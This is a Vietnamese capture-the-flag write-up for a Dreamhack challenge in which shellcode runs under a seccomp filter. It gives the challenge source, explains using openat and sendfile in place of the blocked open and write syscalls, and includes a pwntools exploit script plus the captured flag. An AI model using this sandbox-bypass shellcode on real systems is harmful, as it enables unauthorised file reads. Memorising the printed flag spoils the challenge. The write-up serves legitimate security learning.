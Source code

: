 # Bypass SECCOMP-1

**source C:**

```c 
// Name: bypass_seccomp.c
// Compile: gcc -o bypass_seccomp bypass_seccomp.c -lseccomp

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void sandbox() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(open), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write), 0);

  seccomp_load(ctx);
}

int main(int argc, char *argv[]) {
  void *shellcode = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC,
                         MAP_SHARED | MAP_ANONYMOUS, -1, 0);
  void (*sc)();

  init();

  memset(shellcode, 0, 0x1000);

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sandbox();

  sc = (void *)shellcode;
  sc();
}

```

hàm **sandbox()** này tương đương 1 lớp bảo vệ **seccomp** vậy, kiểm tra xem sao:


![image](https://github.com/gookoosss/CTF/assets/128712571/5b6addb4-eb1f-47e4-ab2b-eabbc7d8fe1c)


ở đây **ta ko dùng được các syscall write, open, execve, execveat, và các syscall khác nằm ngoài ARCH_X86_64**

bây giờ ta đoán được đường dẫn đến flag đa số là **/home/<name>chall/flag**, nên ta đoán đường dẫn cho chall này là **'/home/bypass_seccomp/flag'**
    
ta cần tìm các **syscall khác mà có chức năng tương tự như open, write, read để in flag**
    
theo như mình tham khảo từ nhiều nguồn thì mình tìm được 2 syscall hợp lý cho bài này** openat và sendfile**
    
## opennat 
    
![image](https://github.com/gookoosss/CTF/assets/128712571/9a051b5a-bf07-4466-b508-f160892faaf0)



Tóm lại, openat là một phiên bản mở rộng của open, cho phép mở tập tin dựa trên một file descriptor thư mục và đường dẫn tương đối. Điều này mang lại tính linh hoạt và quyền kiểm soát cao hơn cho việc quản lý tập tin trong ứng dụng.

## sendfile

    
![image](https://github.com/gookoosss/CTF/assets/128712571/21b3de51-5f6a-456b-bb00-98e24126bb34)


Tóm lại, syscall sendfile như là 1 phiên bản kết hợp tối ưu giữa sự kết hợp 2 syscall write và read
    

**(giải thích chi tiết hơn mình đã có note lại trong script nha)**

## script:

```python 
from pwn import *

p = remote('host3.dreamhack.games', 9591)
# p = process('./bypass_seccomp')
context.arch = 'x86_64'

# gdb.attach(p, gdbscript = '''
# b*main+139
# c        
# ''')

# input()

link = '/home/bypass_seccomp/flag'

payload = shellcraft.openat(0, link , 0) # thiết lập rsi(arg1) thành đường dẫn 
payload += shellcraft.sendfile(1, 'rax', 0 , 100)
# arg2(rdx)  và arg3(r10) coi như là offset vậy nên ta cho đọc từ 0 đến 0x100
# rdi ta cho 1
# rsi thì cho giá trị trả về của openat là rax

p.sendafter('shellcode: ', asm(payload))


p.interactive()

#DH{fdac9699a765693377fe6595a82744934ed91185f0300447c45f143a0c08c8c1}
```

## Flag:

DH{fdac9699a765693377fe6595a82744934ed91185f0300447c45f143a0c08c8c1}

